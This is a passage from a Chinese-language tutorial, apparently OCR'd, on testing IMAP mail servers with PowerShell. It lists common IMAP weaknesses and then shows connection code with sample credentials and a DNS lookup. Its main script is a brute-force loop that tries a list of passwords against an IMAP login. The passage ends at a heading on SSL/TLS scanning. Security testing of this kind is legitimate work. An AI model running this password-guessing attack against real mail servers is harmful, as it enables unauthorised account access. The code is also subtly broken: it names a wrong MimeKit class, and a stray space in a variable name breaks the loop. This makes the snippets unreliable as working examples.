 +   **开放中继**：配置为开放中继的 IMAP 服务器可能会被用于发送垃圾邮件

+   **暴力破解攻击**：攻击者可能会尝试通过暴力破解攻击猜测登录凭证

+   **SSL/TLS 漏洞**：弱加密或配置错误可能导致数据被窃听

+   **Banner 抓取**：提取服务器信息可以揭示漏洞

+   **过多的登录尝试**：多次登录失败可能表示遭受攻击。

+   **利用**：易受攻击的 IMAP 服务器可能会成为攻击目标，危及数据的完整性和机密性。

## 建立 IMAP 连接

在测试 IMAP 服务器的漏洞之前，您需要先建立与服务器的连接。这包括设置连接参数，如服务器地址、用户名和密码。以下是如何建立基本 IMAP 连接的示例：

```
 Import-Module MailKit
Import-Module MimeKit
$server = "imap.snowcapcyber.com"
$port = 993
$username = "andrewblyth"
$password = "Th1s1sMypa55w0rd"
$imapClient = [MimeKit.Net.Imap.ImapClient]::new()
$imapClient.Connect($server, $port, [System.Security.Authentication.SslProtocols]::Tls)
$imapClient.Authenticate($username, $password)
```

请确保将 `$server`、`$username` 和 `$password` 替换为适合您 IMAP 服务器的值。

## 扫描 IMAP 服务器

现在您已经与 IMAP 服务器建立了连接，我们来探索各种漏洞测试以及如何使用 PowerShell 执行它们。枚举 IMAP 服务器有助于识别潜在的测试目标。您可以通过查询 IMAP 邮件记录的 DNS 记录来进行基本的服务器枚举：

```
 Resolve-DnsName -Name "imap" -Type MX
```

### 暴力破解攻击

为了测试弱密码或容易猜测的密码，您可以使用 PowerShell 自动化对 IMAP 服务器的暴力破解攻击。该脚本会遍历密码列表，并尝试使用每个密码登录：

```
 $MyPasswordList = @("mypasswd1", "mypasswd2")
foreach ($password in $ MyPasswordList) {
    try {
        $imapClient.Authenticate($username, $password)
        Write-Host "Successful login: $password"
    } catch {
        # Handle login failures here
} }
```

### SSL/TLS 漏洞扫描
